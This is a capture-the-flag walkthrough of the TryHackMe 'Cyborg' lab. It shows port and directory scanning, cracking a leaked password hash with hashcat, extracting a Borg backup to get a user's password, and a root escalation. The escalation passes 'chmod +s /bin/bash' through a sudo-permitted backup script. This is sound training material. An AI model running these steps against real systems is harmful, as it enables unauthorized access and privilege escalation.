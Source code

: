 ## Cyborg
https://tryhackme.com/room/cyborgt8

### :ramen: Enum
いつもの... 
```
nmap -Pn -sC -sV -T4 -A 10.10.58.35 
```
```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 db:b2:70:f3:07:ac:32:00:3f:81:b8:d0:3a:89:f3:65 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCtLmojJ45opVBHg89gyhjnTTwgEf8lVKKbUfVwmfqYP9gU3fWZD05rB/4p/qSoPbsGWvDUlSTUYMDcxNqaADH/nk58URDIiFMEM6dTiMa0grcKC5u4NRxOCtZGHTrZfiYLQKQkBsbmjbb5qpcuhYo/tzhVXsrr592Uph4iiUx8zhgfYhqgtehMG+UhzQRjnOBQ6GZmI4NyLQtHq7jSeu7ykqS9KEdkgwbBlGnDrC7ke1I9352lBb7jlsL/amXt2uiRrBgsmz2AuF+ylGha97t6JkueMYHih4Pgn4X0WnwrcUOrY7q9bxB1jQx6laHrExPbz+7/Na9huvDkLFkr5Soh
|   256 68:e6:85:2f:69:65:5b:e7:c6:31:2c:8e:41:67:d7:ba (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBB5OB3VYSlOPJbOwXHV/je/alwaaJ8qljr3iLnKKGkwC4+PtH7IhMCAC3vim719GDimVEEGdQPbxUF6eH2QZb20=
|   256 56:2c:79:92:ca:23:c3:91:49:35:fa:dd:69:7c:ca:ab (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKlr5id6IfMeWb2ZC+LelPmOMm9S8ugHG2TtZ5HpFuZQ
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=7/12%OT=22%CT=1%CU=40327%PV=Y%DS=4%DC=T%G=Y%TM=62CD22C
OS:8%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=10A%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M505ST11NW6%O2=M505ST11NW6%O3=M505NNT11NW6%O4=M505ST11NW6%O5=M505ST1
OS:1NW6%O6=M505ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN
OS:(R=Y%DF=Y%T=40%W=F507%O=M505NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Uptime guess: 14.663 days (since Tue Jun 28 00:34:07 2022)
Network Distance: 4 hops
TCP Sequence Prediction: Difficulty=260 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

```
ffuf -u http://10.10.58.35/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -r
```

```
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.58.35/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
 :: Follow redirects : true
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

.htaccess               [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 474ms]
.htpasswd               [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 482ms]
.hta                    [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 507ms]
admin                   [Status: 200, Size: 5771, Words: 1870, Lines: 139, Duration: 443ms]
etc                     [Status: 200, Size: 926, Words: 64, Lines: 17, Duration: 434ms]
index.html              [Status: 200, Size: 11321, Words: 3503, Lines: 376, Duration: 446ms]
server-status           [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 456ms]
:: Progress: [4712/4712] :: Job [1/1] :: 91 req/sec :: Duration: [0:00:56] :: Errors: 0 ::
```
![image](https://user-images.githubusercontent.com/6504854/178483731-e1a8948c-4759-4211-85db-4e921bbd7dd8.png)
![image](https://user-images.githubusercontent.com/6504854/178484188-066ba36e-2c38-4514-9ddd-068bcd0f16ae.png)
![image](https://user-images.githubusercontent.com/6504854/178484248-1afca37e-2c8a-4e3f-9e07-0dde9a2b9bf7.png)
![image](https://user-images.githubusercontent.com/6504854/178484313-e5b3e694-5dd1-4d50-9b46-51f63f79bb6f.png)

https://hashcat.net/wiki/doku.php?id=example_hashes

![image](https://user-images.githubusercontent.com/6504854/178485092-25af3968-4763-42ee-a773-8686db6cfd58.png)

```
echo '$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.' > h1.txt
hashcat -m 1600 h1.txt /usr/share/wordlists/rockyou.txt
```

![image](https://user-images.githubusercontent.com/6504854/178485412-43341386-5cb0-4282-8ca5-03b1b454c2b1.png)

We can dl archive.tar admin page and extract.

```
cat README
This is a Borg Backup repository.
See https://borgbackup.readthedocs.io/
```

```
strings index.5
BORG_IDXd
%J_I
FDB9
```

```
borg list final_archive
Enter passphrase for key home/field/dev/final_archive:
music_archive                        Tue, 2020-12-29 23:00:38 [f789ddb6b0ec108d130d16adebf5713c29faf19c44cad5e1eeb8ba37277b1c82]
```

```
borg extract ./final_archive::music_archive
Enter passphrase for key home/field/dev/final_archive:
```
https://borgbackup.readthedocs.io/en/stable/usage/extract.html

🏴 Now we got alex's pass from his archive.


### :ramen: Flag
```
ssh alex@10.10.58.35
alex@ubuntu:~$ cat user.txt
flag{*_****_***_****_***_*****_****}
alex@ubuntu:~$ sudo -l
Matching Defaults entries for alex on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alex may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh
alex@ubuntu:~$ sudo /etc/mp3backups/backup.sh -c 'chmod +s /bin/bash'
alex@ubuntu:~$ /bin/bash
bash-4.3# cat /root/root.txt
flag{*****_***_*******_****_***_*******}
```

😄Thank you for your time. Enjoy!
